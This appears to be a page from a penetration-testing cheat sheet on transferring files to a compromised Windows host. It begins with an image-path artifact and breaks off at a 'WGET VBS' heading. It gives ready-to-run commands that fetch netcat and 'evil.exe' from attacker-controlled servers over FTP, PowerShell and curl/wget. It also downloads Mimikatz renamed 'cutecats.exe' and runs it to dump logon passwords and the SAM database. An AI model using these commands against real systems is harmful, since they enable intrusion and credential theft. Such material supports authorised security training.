 	sudo apt-get install pure-ftpd 
    sudo systemctl restart pure-ftpd
	
On Windows Host:

	 echo open 192.168.46.11 21> ftp.txt
	 echo USER kali>> ftp.txt
	 echo kali>> ftp.txt
	 echo cd /ftphome >> ftp.txt
	 echo GET nc.exe >> ftp.txt
	 echo bye >> ftp.txt
	 
	 ftp -v -n -s:ftp.txt

---



## Downloading Files - Powershell

Server 

	python -m SimpleHTTPServer 8888
	
Client

	powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4:8888/evil.exe', 'new-exploit.exe')
	
OR

	Invoke-WebRequest -Uri https://raw.githubusercontent.com/thomasmaurer/demo-cloudshell/master/helloworld.ps1 -OutFile .\helloworld.ps1

	
Example: Download Mimikatz


	Invoke-WebRequest -Uri https://github.com/ParrotSec/mimikatz/raw/master/x64/mimikatz.exe -OutFile cutecats.exe
	
	./cutecats.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"

---

## Downloading Files - Curl/wget

Server 

	python -m SimpleHTTPServer 8888
	
Client

	curl http:/ /10.11.0.4:8888/evil.exe -o evil.exe
	wget http:/ /10.11.0.4:8888/evil.exe evil.exe
	
---

## Downloading Files - WGET VBS
